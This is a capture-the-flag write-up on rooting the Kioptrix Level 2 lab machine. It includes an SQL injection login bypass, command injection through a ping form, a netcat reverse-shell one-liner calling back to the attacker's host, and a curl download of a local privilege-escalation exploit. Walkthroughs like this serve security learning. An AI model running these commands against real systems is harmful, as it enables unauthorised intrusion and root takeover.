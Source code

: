 # Kioptrix Level 2

Today, we will be attempting to gain root access to the machine "Kioptrix 2". The second part of the Kioptrix series, please note this machine is also very easy so if you are more experienced I recommend you leave this machine alone.

# *Requirements/Setup*
- Nmap
- A brain
- Ability to host the machine
- $IP defined as your vulnerable machines IP - (`export $IP=[ip]`).

# *Enumeration*

As per routine, we will run a standard nmap scan to being our ventures into this machine.

![enter image description here](https://github.com/benjibrown/ctf-writeups/blob/main/VulnHub/images/kioptrix2/Screenshot_2022-10-27_12-52-48.png?raw=true)

```bash
nmap -sV -sC -oN initial.txt $IP
```

After running this scan, we can see it is running an **Apache server** on port `80` and `443`. This could be a potential entry point, upon opening the webserver in our browser, we see a login page.

![enter image description here](https://github.com/benjibrown/ctf-writeups/blob/main/VulnHub/images/kioptrix2/Screenshot_2022-10-28_03-53-25.png?raw=true)

Before we run any vulnerability scans, we'll try out a simple test to see if we can perform any SQL injection by typing `admin'#` into the username box.

![enter image description here](https://github.com/benjibrown/ctf-writeups/blob/main/VulnHub/images/kioptrix2/Screenshot_2022-10-28_03-54-01.png?raw=true)

Fortunately, it worked and it even gave us access to a new page which looks like we could perform command injection on. 

![enter image description here](https://github.com/benjibrown/ctf-writeups/blob/main/VulnHub/images/kioptrix2/Screenshot_2022-10-28_03-57-08.png?raw=true)

By entering the IP address of a server we want to ping and then typing `&& whoami` after it proves we can remotely execute commands from the website. From here, we can try to get a revshell by starting up a netcat listener in a new terminal with:
```bash
nc -lvnp 443
```
Now, we need to execute a command on the website so as it creates a reverse shell, to do this, we will enter the following into the website:
```bash
sh -i >& /dev/tcp/[your-eth0-ip]/443 0>&1
```
If completed successfully, you should have a working reverse shell!

![enter image description here](https://github.com/benjibrown/ctf-writeups/blob/main/VulnHub/images/kioptrix2/Screenshot_2022-10-28_04-05-47.png?raw=true)

However, we still haven't gained root, so we are not done yet. First, using a tool called `SearchSploit` we are going to find some potential exploits we can use to perform privilege escalation.

![enter image description here](https://github.com/benjibrown/ctf-writeups/blob/main/VulnHub/images/kioptrix2/Screenshot_2022-10-28_04-10-47.png?raw=true)

```bash
searchsploit centos
```
The exploit `9545.c` seems to be a good option, to get thix exploit run:
 ```bash
cp /usr/share/exploitdb/exploits/linux/local/9545.c ~/
```
From here, we have to transfer this file to the machine we are attacking, to do so run the following:
```bash
python3 -m http.server 80
```
After this, your eth0 IP should route to a webserver with some files in it. Now in your rev shell run:
```bash
cd /tmp
curl http://[your-ip]/9545.c -o 9545.c
```
Almost there! Now we need to compile the C file using gcc.
```bash
gcc -o kioptrix 9545.c`
```
![enter image description here](https://github.com/benjibrown/ctf-writeups/blob/main/VulnHub/images/kioptrix2/Screenshot_2022-10-28_04-18-20.png?raw=true)

And then simply run `./kioptrix` and if all done correctly you will have root access on the machine! Congrats!

